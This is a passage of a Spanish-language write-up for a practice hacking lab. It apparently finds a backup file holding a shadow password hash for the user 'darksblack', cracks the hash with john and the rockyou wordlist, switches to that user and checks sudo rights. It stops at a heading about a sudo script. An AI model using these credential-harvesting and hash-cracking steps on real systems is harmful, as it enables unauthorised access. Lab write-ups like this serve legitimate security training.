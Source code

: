 ## File Discovery

Buscaremos archivos en el sistema cuyo miembro sea cada usuario en cuestión

~~~ bash
find / -user "darksblack" -readable 2>/dev/null
~~~

- `-user`: Usuario propietario
- `-readable`: Capacidad de lectura

![[Pasted image 20241105175226.png]]

Si inspeccionamos el archivo vemos lo siguiente

~~~ bash
cat /var/backups/darksblack/.darksblack.txt
~~~

![[Pasted image 20241105175834.png]]

## John (cracking shadow hash)

Parece ser el `hash` del archivo `/etc/shadow` para el usuario `darksblack`, intentaremos crackear este hash usando la herramienta `john`

~~~ bash
john --format=crypt--wordlist=/usr/share/wordlist/rockyou.txt hash.txt
~~~

- `--format=crypt`: Detectar el algoritmo usado de forma automática para Unix
- `--wordlist`: Especificamos el diccionario a usar para crackear el hash

![[Pasted image 20241105180828.png]]

## Darksblack

Hemos encontrado la contraseña `salvador1` para el usuario `darksblack`, por lo que ya podemos migrar a este usuario

~~~ bash
su darksblack
~~~

![[Pasted image 20241105182658.png]]

## Sudo `script.sh`

Inicialmente comprobaremos los privilegios `sudo` para este nuevo usuario

~~~ bash
sudo -l
~~~

![[Pasted image 20241105182620.png]]
